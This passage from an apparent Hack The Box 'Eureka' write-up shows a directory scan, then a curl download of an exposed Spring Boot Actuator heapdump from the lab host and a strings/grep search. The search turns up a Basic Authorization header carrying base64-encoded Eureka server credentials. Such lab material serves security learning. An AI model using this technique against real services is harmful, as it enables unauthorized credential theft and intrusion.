 ```shell
[21:14:40] 200 -   14KB - /services                                         
[21:14:41] 200 -   12KB - /shop                                             
                                                                             
Task Completed
```

## Foothold

### Spring Framework

#### Spring Boot Actuator

A typical attack on the `Spring Framework` is to check if it is possible to `dump` the `heapdump` file.

- [https://www.wiz.io/blog/spring-boot-actuator-misconfigurations](https://www.wiz.io/blog/spring-boot-actuator-misconfigurations)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eureka/files]
└─$ curl 'http://furni.htb/actuator/heapdump' -O 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 76.4M  100 76.4M    0     0  4402k      0  0:00:17  0:00:17 --:--:-- 6161k
```

We got lucky and started searching through the file using `strings` and `grep` as described in the `article` by `Wiz`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eureka/files]
└─$ strings heapdump | grep -E "^Host:\s+\S+$" -C 10
Keep-Alive: timeout=60
Connection: keep-alive
VJ,(
V*K-*
SRsJ
Utlm-
GET /eureka/apps/delta HTTP/1.1
Accept: application/json, application/*+json
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
Accept-Encoding: gzip, x-gzip, deflate
Host: localhost:8761
Connection: keep-alive
User-Agent: Apache-HttpClient/5.3.1 (Java/17.0.11)
;cH!
http-outgoing-2!
Accept-Encoding!
;(p!
;A`!
;'x!
Apache-HttpClient/5.3.1 (Java/17.0.11)!
;Vp!
--
X-Frame-Options: DENY
Content-Length: 0
Date: Thu, 01 Aug 2024 18:29:30 GMT
Keep-Alive: timeout=60
Connection: keep-alive
PUT /eureka/apps/FURNI/eureka:Furni:8082?status=UP&lastDirtyTimestamp=1722535252684 HTTP/1.1
Accept: application/json, application/*+json
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
Accept-Encoding: gzip, x-gzip, deflate
Content-Length: 0
Host: localhost:8761
```